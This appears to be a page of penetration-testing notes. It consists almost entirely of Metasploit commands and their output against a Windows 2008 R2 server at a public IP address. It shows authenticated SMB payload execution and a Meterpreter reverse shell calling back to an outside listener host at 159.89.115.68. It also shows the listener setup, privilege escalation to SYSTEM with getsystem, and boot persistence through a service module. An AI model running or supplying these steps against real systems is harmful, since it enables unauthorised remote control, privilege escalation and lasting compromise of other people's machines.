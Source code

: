 ```powershell
[*] 40.76.51.149:445 - Authenticating to 40.76.51.149:445 as user 'digiserver2'...
[*] 40.76.51.149:445 - Selecting PowerShell target
[*] 40.76.51.149:445 - Executing the payload...
[+] 40.76.51.149:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175686 bytes) to 40.76.51.149
[*] Meterpreter session 3 opened (159.89.115.68:4444 -> 40.76.51.149:53013) at 2022-08-20 01:32:00 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DIGISERVER2
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter >
```

### Listener
```powershell!
$ msf exploit(handler) > use exploit/multi/handler
$ msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
$ msf exploit(handler) > set LHOST 159.89.115.68
LHOST => 159.89.115.68
$ msf exploit(handler) > set LPORT 443
LPORT => 443
$ msf exploit(handler) > exploit -j
```

### Privilege Escalation
```cmd!
$ getsystem
```
![](https://i.imgur.com/EERYpxC.png)

![](https://i.imgur.com/BgUUss3.png)


### Persistence
Refer - https://www.hackingarticles.in/multiple-ways-to-persistence-on-windows-10-with-metasploit/

#### Method 1
Add to service, start on boot(Best Method)
```powershell!
$ use exploit/windows/local/persistence_service
$ set session 3
$ set lport 443
$ exploit -j
```
